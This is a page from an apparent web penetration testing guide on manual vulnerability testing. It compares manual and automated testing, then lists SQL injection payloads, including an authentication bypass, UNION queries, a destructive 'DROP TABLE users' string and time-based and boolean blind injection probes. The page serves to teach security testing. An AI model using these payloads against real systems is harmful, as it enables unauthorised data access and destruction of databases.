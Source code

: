 # 🔍 Manual Vulnerability Testing

Comprehensive guide to manual testing techniques for identifying vulnerabilities that automated tools might miss.

**Location in Framework:** `web-pentesting/vulnerability-assessment/manual-testing.md`

---

## 🎯 Overview

Manual testing involves human-driven security testing techniques that complement automated scanning. It focuses on logic flaws, business logic vulnerabilities, and context-specific security issues that require human intelligence to identify.

---

## 🛠️ Manual Testing Approach

### Why Manual Testing?
- **Logic flaws** that automated tools cannot detect
- **Context-specific vulnerabilities** unique to business processes  
- **Complex attack chains** requiring multiple steps
- **False positive verification** of automated findings
- **Custom application behavior** analysis

### Manual vs Automated Testing
| Aspect | Manual Testing | Automated Testing |
|--------|----------------|-------------------|
| **Coverage** | Deep, focused | Broad, comprehensive |
| **Speed** | Slower, thorough | Fast, efficient |
| **Accuracy** | High precision | May have false positives |
| **Cost** | Higher skilled resources | Tool licensing costs |
| **Creativity** | Human intuition | Predefined signatures |

---

## 🕷️ Web Application Manual Testing

### Input Validation Testing

#### SQL Injection Testing
```sql
-- Basic SQL injection payloads
' OR '1'='1
' UNION SELECT 1,2,3--
'; DROP TABLE users;--
' AND (SELECT COUNT(*) FROM information_schema.tables)>0--

-- Time-based blind injection
' AND (SELECT SLEEP(5))--
' OR IF(1=1,SLEEP(5),0)--

-- Boolean-based blind injection  
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```
